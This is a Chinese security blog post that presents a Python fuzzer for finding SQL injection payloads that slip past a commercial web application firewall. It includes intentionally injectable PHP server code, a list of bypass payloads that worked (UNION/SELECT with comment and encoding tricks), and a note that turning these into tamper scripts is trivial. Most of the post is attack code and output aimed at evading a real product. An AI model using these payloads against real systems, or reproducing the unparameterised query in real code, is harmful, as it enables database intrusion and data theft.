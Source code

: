 ```yaml
---
layout: post
title:  "Fuzz 测试 WAF"
date:   2017-06-02
categories: fuzz
permalink: /archivers/2017-06-02/1
description: "本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。"
---
```

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。
<!--more-->
* 目录
{:toc}

## 0x00 前言
科拉实验室 是一个无名无实的信息安全实验室，此Git用于发布成员研究成果，技术交流而创。

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。

参考文献：http://www.cnblogs.com/perl6/p/7076524.html

环境如下：
* Windows 2008
* Apache
* PHP
* MySQL
* 某WAF 4.0


## 0x01 原理


每当WAF拦截一个请求，都会返回一个相同的提示页面，这个页面可以给予我们与正常请求页面不同的响应。

如：网页标题、网页内容、HTTP响应头、等等……

那么在WAF匹配攻击敏感点的时候它会查询一下自己的规则库（正则表达式），如果遇到匹配不到的请求（正常请求 or 攻击请求），都会自动放行。

首先要确立一个看似一定会被拦截的规则，然后在此规则上做FUZZ测试。

例如：`UNION SELECT XXX`

但是我们在UNION与SELECT之间可以做许多注释来进行测试，假设规则库（正则）中只能匹配到数字、大小写字母，那么就可以填充它预知不到的字符，该请求被发送出去，都将会被视为正常请求放行。

例如：`UNION/*%(-_/}%*/ SELECT`

当前状况下，`/**/`中的字符都不会被SQL解析。

## 0x02 机器实现对抗规则库

```python
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|','%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","%0j"]
 # 这里还可以填充更多的冷门字符
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.36 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.104/index.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                    exp = "/*!union/*"+a+b+c+d+"*/select*/ 1,2"
                    url = url_start + exp
                    res = requests.get(url = url , headers = headers)
                    #print(res.text.find("true"))
                    if res.text.find("true")==-1:
                        print("Find Fuzz bypass:"+url)
                        pass

```

服务器端代码：
```php
<?php
mysql_connect("127.0.0.1","root","root","test");
$id=!empty($_GET['id'])?$_GET['id']:1;
$SQL="SELECT * FROM test.test WHERE id = " . $id;
$result = mysql_fetch_assoc(mysql_query($SQL));
print_r($result);
```
数据库结构：

![数据库结构][1]


注意要将CC防护关闭，因为它会将短时间内请求数量过高的主机加入黑名单

## 0x03 Just Do it

![fuzz][2]

[1]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/00.png "数据库结构"
[2]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/11.png "FUZZ结果"

```
 Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0c*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0d*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0e*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0f*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0g*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0h*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0i*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0j*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/**/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i*/*/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/*!*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i**/select*/
 1,2
 ..................
 ```

 对抗结果如上
 
 
 利用如上Payloads写出响应的Tamper已经不是什么难事了。
 
 
## 0x04 未来

目前是机器PK死的规则库，当然是机器会胜利，那么未来是否会是机器对抗机器？
 
还会远吗？

----------

科拉实验室  service@cora-lab.org

